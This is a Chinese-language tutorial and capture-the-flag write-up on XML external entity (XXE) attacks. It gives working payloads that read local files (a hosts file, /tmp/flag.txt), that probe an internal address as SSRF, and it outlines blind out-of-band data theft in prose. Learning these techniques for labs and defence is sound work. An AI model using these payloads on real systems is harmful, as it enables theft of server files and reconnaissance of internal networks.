



XXE漏洞


##### 基础知识：

## 读取本地文件

这是最常见、最直接的XXE攻击方式。**通过 file:// 协议**，攻击者可以尝试读取服务器上的任意文件。

攻击载荷示例：

```
<!DOCTYPE 数据 [

    <!ENTITY 敏感文件 SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">

]>

<数据>&敏感文件;</数据>
 
```

可能的结果： 如果攻击成功，服务器返回的响应中，<数据> 标签内会包含服务器上hosts文件的内容。

## 探测内网（SSRF）

XXE更危险的一点是，它能将攻击范围从本机扩展到整个内网。这是因为外部实体支持多种协议，如 http://。

攻击载荷示例：

```
<?xml version="1.0"?>

<!DOCTYPE 扫描 [

    <!ENTITY 内网探测 SYSTEM "http://192.168.1.1/admin">

]>

<扫描>&内网探测;</扫描>

攻击原理： 服务器上的XML解析器会尝试向 http://192.168.1.1/admin 发起一个HTTP请求。如果这个内网地址存在且可访问，攻击者就能通过服务器的响应时间或错误信息，来判断内网中哪些设备和服务是存在的。


盲注XXE：当结果不直接显示时


有时候，你发动了XXE攻击，但服务器并不会在页面上直接回显文件内容。这种情况叫做“盲注XXE”。难道就没办法了吗？不！


**攻击者可以通过“数据外带”的方式来证明漏洞存在并获取数据。**


攻击思路：


让服务器去读取一个敏感文件（如 /etc/passwd）。


将文件内容作为参数，向一个攻击者控制的服务器发起HTTP请求。


攻击者只需在自己的服务器日志中，查看收到的请求，就能看到被窃取的数据 
```

靶场实战：



使用burp抓包后放重放器



因为该题有前提直接说明flag在/tmp/flag.txt内
（默认情况，flag 路径为 `/tmp/flag.txt`）

因此根据上述基础知识构造payload

<!DOCTYPE user [<!ENTITY a SYSTEM "file:///tmp/flag.txt" >]>



得到flag